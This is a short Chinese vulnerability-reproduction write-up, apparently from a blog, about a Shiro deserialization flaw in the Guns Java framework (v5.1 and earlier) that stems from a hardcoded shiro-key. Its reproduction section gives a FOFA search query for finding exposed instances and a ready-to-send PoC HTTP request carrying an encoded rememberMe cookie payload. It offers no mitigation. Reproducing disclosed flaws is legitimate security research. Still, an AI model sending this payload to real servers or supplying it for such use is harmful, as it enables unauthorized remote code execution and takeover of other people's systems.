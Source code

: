 
# Guns 快速开发平台 Shiro 反序列化漏洞复现

### 0x01 产品简介

  Guns 是一个现代化的 Java 应用开发框架，基于主流技术 Spring Boot 2 + [Vue3](https://so.csdn.net/so/search?q=Vue3&spm=1001.2101.3001.7020)，Guns 的核心理念是提高开发人员开发效率，降低企业信息化系统的开发成本。

### 0x02 漏洞概述

 Guns v5.1 及之前的版本存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 影响范围

Guns <= v5.1

### 0x04 复现环境

FOFA：app="Guns"

![](assets/1701678050-625675332d7aed3e9f6fe1080eb49bce.png)

### 0x05 漏洞复现 

PoC

```cobol
GET / HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: rememberMe=ZTE4ZUI2ZmNlQ0I1N2VlMIo/Wyvlhprf3YyQ7Uv0S1ylHBAbcj1lccluzsWCtG5HF01/y+s6ZI6S12zsdz9N+2nqYahiFMk8s+/RwNucYR8lqS9REzzXlF3orc/ZFjlRR8h0Lgfn4lpRxZnSGYCVh0neiT/ZQCT8tffIhFf0FthINEIn00tPmGJpjCTG+dc5Jmc5
```
